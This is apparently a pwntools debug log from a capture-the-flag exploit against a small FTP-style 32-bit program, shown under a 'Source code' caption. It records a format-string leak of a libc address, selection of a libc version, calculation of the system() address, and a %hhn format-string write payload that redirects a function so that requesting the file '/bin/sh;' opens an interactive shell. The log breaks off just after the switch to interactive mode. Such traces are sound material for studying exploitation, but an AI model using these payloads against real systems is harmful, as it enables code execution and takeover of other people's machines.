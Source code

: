 ```assembly
[DEBUG] Sent 0x9 bytes:
    00000000  25 38 24 73  28 a0 04 08  0a                        │%8$s│(···│·│
    00000009
[DEBUG] Sent 0x4 bytes:
    b'get\n'
[DEBUG] Received 0x4 bytes:
    b'ftp>'
[DEBUG] Received 0x24 bytes:
    b'enter the file name you want to get:'
[DEBUG] Sent 0x5 bytes:
    b'1111\n'
[DEBUG] Received 0x14 bytes:
    00000000  60 e4 d8 f7  26 85 04 08  36 85 04 08  40 cd d3 f7  │`···│&···│6···│@···│
    00000010  28 a0 04 08                                         │(···│
    00000014
[+] There are multiple libc that meet current constraints :
0 - libc6_2.31-8_i386
1 - libc6_2.31-7_i386
2 - libc6_2.31-9_i386
3 - libc6-i386_2.27-3ubuntu1.4_amd64
4 - libc6_2.26-0ubuntu2_amd64
5 - libc6-i386_2.13-20ubuntu5_amd64
6 - libc-2.31-4-x86
7 - libc-2.31-5-x86
8 - libc6_2.26-0ubuntu2.1_amd64
9 - libc6-i386_2.27-3ubuntu1.3_amd64
[+] Choose one : 0
[+] system actual addr = 0xf7d63040
payload: b'%48c%19$hhn%16c%20$hhn%150c%21$hhn%33c%22$hhnaaa)\xa0\x04\x08(\xa0\x04\x08*\xa0\x04\x08+\xa0\x04\x08'
payload: 253438632531392468686e253136632532302468686e25313530632532312468686e253333632532322468686e61616129a0040828a004082aa004082ba00408
[DEBUG] Sent 0x4 bytes:
    b'put\n'
[DEBUG] Received 0x4 bytes:
    b'ftp>'
[DEBUG] Received 0x35 bytes:
    b'please enter the name of the file you want to upload:'
[DEBUG] Sent 0x9 bytes:
    b'/bin/sh;\n'
[DEBUG] Received 0x18 bytes:
    b'then, enter the content:'
[DEBUG] Sent 0x41 bytes:
    00000000  25 34 38 63  25 31 39 24  68 68 6e 25  31 36 63 25  │%48c│%19$│hhn%│16c%│
    00000010  32 30 24 68  68 6e 25 31  35 30 63 25  32 31 24 68  │20$h│hn%1│50c%│21$h│
    00000020  68 6e 25 33  33 63 25 32  32 24 68 68  6e 61 61 61  │hn%3│3c%2│2$hh│naaa│
    00000030  29 a0 04 08  28 a0 04 08  2a a0 04 08  2b a0 04 08  │)···│(···│*···│+···│
    00000040  0a                                                  │·│
    00000041
[DEBUG] Received 0x4 bytes:
    b'ftp>'
[DEBUG] Sent 0x4 bytes:
    b'get\n'
[DEBUG] Received 0x24 bytes:
    b'enter the file name you want to get:'
[DEBUG] Sent 0x9 bytes:
    b'/bin/sh;\n'
[DEBUG] Sent 0x4 bytes:
    b'dir\n'
[*] Switching to interactive mode
[DEBUG] Received 0x10a bytes:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
```